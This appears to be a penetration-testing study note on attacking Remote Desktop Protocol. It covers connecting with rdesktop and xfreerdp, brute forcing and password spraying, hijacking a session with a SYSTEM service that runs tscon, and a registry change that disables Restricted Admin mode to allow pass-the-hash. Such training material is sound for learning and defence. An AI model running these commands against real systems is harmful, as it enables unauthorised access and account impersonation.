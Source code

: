 - **tags:** #common-services #xfreerdp #RDP #rdesktop
- --------------------
*Remote Desktop Protocol* is a proprietary protocol developed by Microsoft Corporation which provides a user with a graphical interface to connect to another computer over a network connection. The user employs *RDP* client software for this purpose, while the other computer must run *RDP* server software. By *default*, the server listens on TCP *port* **3389** and UDP port 3389. 
# Connection
From a *Linux* host we can use either *rdesktop* or *xfreerdp*:
```bash
rdesktop -u "username" -p "password" <ip>
xfreerdp /u:victor /p:p@ss123 /v:<hostIP>
```
# Brute Force
We can use tools like *hydra* or *crowbar* to perform password spraying or password brute forcing attacks.
# Session Hijacking
If a user is connected via RDP to our compromised machine, we can hijack the user's remote desktop session to escalate our privileges and impersonate the account.
```shell
# list current active sessions
query user # you need to take note of the session id of the user you'd like to impersonate
```
To successfully impersonate a user without their password, we need to have `SYSTEM` privileges and use the Microsoft [tscon.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/tscon) binary that enables users to connect to another desktop session. If we have local administrator privileges, we can use several methods to obtain `SYSTEM` privileges, such as [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) or [Mimikatz](https://github.com/gentilkiwi/mimikatz). A simple trick is to create a Windows service that, by default, will run as `Local System` and will execute any binary with `SYSTEM` privileges
```shell
# create a service that will prompt a terminal as the other user
sc create "sessionhijack" binpath="cmd.exe /k tscon <session_id> /dest:rdp-tcp#<your_corresponding_number>"

# start service
net start "sessionhijack"
```
# Pass the Hash
 In some instances, we can perform an RDP PtH attack to gain GUI access to the target system using tools like `xfreerdp` with the `pth` switch. **Note:** *Admin Restricted Mode* could have been enabled to mitigate such attacks. In that case we will need to add the following *registry* key-value:
```shell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```


